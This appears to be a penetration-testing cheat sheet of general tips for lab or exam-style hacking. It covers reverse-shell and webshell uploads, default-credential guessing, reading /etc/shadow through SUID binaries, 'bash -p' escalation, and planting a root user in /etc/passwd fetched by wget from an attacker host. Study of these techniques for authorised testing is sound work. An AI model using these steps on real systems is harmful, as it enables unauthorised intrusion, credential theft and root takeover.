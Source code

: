 # General tips
- If FTP is open try connecting to it with anonymous creds (anonymous / anonymous@anonymous.com)
- If it looks like it's linked to a webserver of some sort try uploading a reverse shell to the FTP server and execute it in the browser. Or maybe it'll have functionality that auto-executes uploaded files periodically.
- Browse to HTTP and HTTPS versions of the site on those other HTTP ports?
- SMB: Use enum4linux and smbclient. See if you can get usernames, groups, passwords, sensitive files, groups.xml file for password cracking, etc.
- LDAP: Use ldapsearch to find potentially sensitive info.
- Try LFIs/RFIs: If the website has upload functionality experiment with uploading webshells or reverse shells.
- if the webapp presents a page/function that works as intended, try change input to make it throw and error; we can analyse the error to find out the software used and the process behind it
- If Linpeas cannot found vulnerabilties, use linux-exploit-suggester (https://github.com/mzet-/linux-exploit-suggester)
- /dev/null is the standard Linux device where you send output that you want ignored.
- if mount point is needed, try to use /etc , so we can access /etc/passwd
- /tmp directory has all permission to create or delete any file, use it
- if SUID is set ofr a binary program and to GTFObins requires LFILE=file_to_read, we can set LFILE=/etc/shadow, and unhash the password and do a 'su' or switch user.
- If "/bin/bash" has SUID set, user can execute “bash -p” and this should allow you to run the bash as root.
- If a user can run all command as root user, we can achieve root access by performing 'sudo su' or 'sudo bash'
- always read the command flags carefully i.e. under --help
![image](https://github.com/user-attachments/assets/4b28ef51-06ae-4acc-96e3-8bcb6552cee3)
![image](https://github.com/user-attachments/assets/24447d7f-6aa7-4668-9705-3e14157570c9)

- If program/exploit cannot run, try 'chmod +x exploit' or 'chmod 777 exploit'
- if '/bin/bash' doesnt work, try '/bin/sh'
- to run binary program, can specify '/home' instead of current directory '.'
- [if SUID bit set for cp, we can add a new user with root privileges to /etc/passwd file] to create new user(name: ignite) at end of /etc/passwd, first generate the $hash value first using 'openssl passwd -1 -salt ignite pass123'. Then insert $hash into 'ignite:$hash:0:0:root:/root:/bin/bash'. Then copy the passwd file back to victim machine (/etc) using 'wget -O passwd http://192.168.1.108:8000/passwd'. Then 'su ignite' password: 'pass123', 'whoami'.
- admin to give SUID permission to nano: 'chmod u+s /bin/nano'
- if WinPEAS failed i.e. Error, try using Seatbelt
- transfer nc from kali to windows: 'locate nc.exe' then host the folder that contains nc.exe
- For Linux, search for interesting files in /home, /opt, or /
- For Windows, search for interesting files in \Documents or \Desktop
- TRY CREDS EVERYWHERE!! try default passwords admin/admin ; root/root
- IF YOUR SHELLS AREN’T WORKING TRY DIFFERENT PORTS, ARCHITECTURES, AND ENCODINGS!!
- Aim old OS versions
- decode base64 hashes: `echo "xxxxxxxxxxxxx" | base64 -d`
- Domain Controller usually has port 88/TCP kerberos-sec
- For AD enumeration run `nmap -A 192.168.1.50 -Pn`, take note of the common name of the host in AD e.g. `ssl-cert: Subject: commonName=student.pentesting.local`
- For crackmapexec, if a command failed, try another protocol e.g. smb, winrm, etc
- Root of php web server
![image](https://github.com/user-attachments/assets/49a4e874-e58c-4c07-aa12-d403a44648e1)
- if HTTP request method return error e.e. 4xx, check to another method and try. If GET method fails, try POST method
- to bypass login page `google for default credentials for the web app` or `use XX(MYSQL) bypass login seclist`
